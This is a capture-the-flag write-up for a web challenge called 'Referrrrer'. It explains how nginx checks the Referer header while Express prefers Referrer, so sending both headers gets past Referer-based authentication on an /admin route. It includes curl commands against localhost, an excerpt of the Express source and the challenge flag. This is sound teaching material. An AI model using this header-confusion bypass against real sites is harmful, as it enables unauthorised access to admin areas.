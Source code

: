 # Referrrrer

### Category

Web

### Description

Defeated the security of the website which implements authentication based on the [Referer](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer) header.

Format : Hero{flag}<br>
Author : xanhacks

### Files

- [Referrrrer.zip](Referrrrer.zip)

### Write Up

The challenge is about the priority between the request header `Referer` and `Referrer`. The nginx server will prioritise `Referer` while `express` will prioritise `Referrer`. It is therefore possible to set two different values for this header.

```bash
# Without Referer
$ curl http://localhost/admin
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.22.1</center>
</body>
</html>

# Referer for nginx
$ curl http://localhost/admin -H 'Referer: https://admin.internal.com/'
Forbidden

# Referer for nginx
# Referrer for express
$ curl http://localhost/admin -H 'Referer: https://admin.internal.com/' -H 'Referrer: YOU_SHOUD_NOT_PASS!'
Hero{ba7b97ae00a760b44cc8c761e6d4535b}
```

---

You can check the source code of nodejs library `express` and more specifically, the `req.header` function located in `./app/node_modules/express/lib/request.js`.

```js
/**
 * Return request header.
 *
 * The `Referrer` header field is special-cased,
 * both `Referrer` and `Referer` are interchangeable.
 *
 * ...
 */
req.get =
req.header = function header(name) {
  if (!name) {
    throw new TypeError('name argument is required to req.get');
  }

  if (typeof name !== 'string') {
    throw new TypeError('name must be a string to req.get');
  }

  var lc = name.toLowerCase();

  switch (lc) {
    case 'referer':
    case 'referrer':
      return this.headers.referrer
        || this.headers.referer;
    default:
      return this.headers[lc];
  }
};
```

You can see that both `Referrer` and `Referer` are interchangeable. `Express` will prioritise `Referrer` with two `r` even if the request sends a header with only one `r` because both headers reach the same code block.

### Flag

Hero{ba7b97ae00a760b44cc8c761e6d4535b}